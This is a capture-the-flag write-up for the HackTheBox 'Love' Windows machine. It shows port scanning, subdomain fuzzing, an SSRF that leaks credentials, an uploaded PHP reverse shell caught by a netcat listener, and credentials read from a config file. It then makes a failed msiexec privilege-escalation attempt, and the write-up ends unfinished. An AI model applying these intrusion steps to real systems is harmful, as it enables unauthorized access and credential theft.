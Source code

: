 ```yaml
---
title: "Love"
date: 2025-06-20
categories:
  - HackTheBox
  - Windows
tags:
  - HackTheBox
  - Windows
---
```


# Love

![](assets/Pasted%20image%2020250520224654.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.239
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-20 22:51 CEST
Nmap scan report for 10.10.10.239
Host is up (0.041s latency).
Not shown: 62980 closed tcp ports (reset), 2536 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: Voting System using PHP
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB 10.3.24 or later (unauthorized)
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2025-05-20T21:16:18+00:00; +21m33s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1909 - 2004
Network Distance: 2 hops
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
```

`Port` `5000` is a forbidden site.

`Port` `80` is a voting system login form.

![](assets/Pasted%20image%2020250521122957.png)

Add `love.htb` to `/etc/hosts` and, using `wfuzz`, fuzz subdomains to discover `staging`. This subdomain is already discovered by `nmap` (`ssl-cert: Subject: commonName=staging.love.htb/organizationName=V`).

```shell
$ wfuzz -c --hh 4388 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.love.htb" http://love.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://love.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                               
=====================================================================

000000067:   200        191 L    404 W      5357 Ch     "staging"                             

Total time: 10.96540
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 454.9763
```

Add `staging.love.htb` to `/etc/hosts` and browse it.

![](assets/Pasted%20image%2020250521123503.png)

Going to the Demo tab, we find a form with an SSRF vulnerability.
If we enter `port` `5000`, which was forbidden, now we can see some credentials.

![](assets/Pasted%20image%2020250521123643.png)

Using `feroxbuster`, we find an `/admin` path on `port` `80`.

![](assets/Pasted%20image%2020250521134910.png)

![](assets/Pasted%20image%2020250521134925.png)

Using the internal `port` credentials:

![](assets/Pasted%20image%2020250521135009.png)

![](assets/Pasted%20image%2020250521135312.png)

## Initial Access

Inside, create a new voter and upload a PHP reverse shell as the user image.

![](assets/Pasted%20image%2020250521160141.png)

Start a listener and open the picture.

```shell
$ sudo rlwrap nc -lnvp 80
listening on [any] 80 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.239] 58482
SOCKET: Shell has connected! PID: 4236
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami
love\phoebe

C:\xampp\htdocs\omrs\images>
```

Get the flag:

```shell
C:\Users\Phoebe\Desktop>type user.txt
8f6bd824be4361a499bbbef404826355
```

## Privilege Escalation

Get SQL connection credentials from the site's config file.

```shell
C:\xampp\htdocs\omrs\includes>type conn.php
<?php
        $conn = new mysqli('localhost', 'phoebe', 'HTB#9826^(_', 'votesystem');

        if ($conn->connect_error) {
            die("Connection failed: " . $conn->connect_error);
        }
?>
```

Checking with `nxc`, these are also valid system credentials.

```shell
$ nxc winrm love.htb -u phoebe -p 'HTB#9826^(_'         
WINRM       10.10.10.239    5985   LOVE             [*] Windows 10 / Server 2019 Build 19041 (name:LOVE) (domain:Love)
WINRM       10.10.10.239    5985   LOVE             [+] Love\phoebe:HTB#9826^(_ (Pwn3d!)
```

![](assets/Pasted%20image%2020250521162110.png)

![](assets/Pasted%20image%2020250521164618.png)

Create an MSI reverse shell and execute it like an installer:

```shell
C:\Users\Phoebe\Documents>msiexec /quiet /qn /i reverse.msi
```

But it doesn't work. Checking the `applocker` policy:

```shell
*Evil-WinRM* PS C:\Users\Phoebe\Documents> Get-AppLockerPolicy -Effective | Select -Expandproperty rulecollections
...
PathConditions      : {%OSDRIVE%\Administration\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : e6d62a73-11da-4492-8a56-f620ba7e45d9
Name                : %OSDRIVE%\Administration\*
Description         :
UserOrGroupSid      : S-1-5-21-2955427858-187959437-2037071653-1002
Action              : Allow
```

We can execute it from that folder, but it doesn't work either.

!!! bug

    Following multiple write-ups, I tried from different folders and creating a user instead of getting a reverse shell, but nothing works...
